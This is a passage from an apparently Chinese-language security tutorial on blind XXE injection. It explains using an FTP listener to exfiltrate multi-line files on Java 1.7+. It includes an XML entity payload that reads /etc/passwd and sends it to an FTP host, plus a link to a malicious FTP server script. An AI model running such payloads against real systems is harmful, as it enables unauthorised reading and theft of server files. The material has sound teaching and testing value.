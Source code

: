 ![](img/6.png)

### 解决文件跨行传输——ftp&jdk1.7+

在XXE盲注中，我们也提到通过http协议访问我们的服务器会只获取被读取的文件第一行。

参考[XXE OOB exploitation at Java 1.7+](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html)这篇文章，在特定情况下我们可以解决这种困境。

在jdk1.7以前，可以通过http协议传输具有换行的文件的。因为java会对换行符进行URL编码然后就访问一个地址。

但是1.7之后，就修复了这个问题，会报错。

但是我们仍然可以用ftp服务器来接受换行文件，因为ftp没有进行类似的限制，换行之后的字符会被当做CWD命令输入。

只要起一个[恶意的FTP服务器](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)，其他按照正常的XXE盲注打就好了。

```
<!ENTITY % b SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://127.0.0.1:2121/%b;'>">
%c;
```

payload:
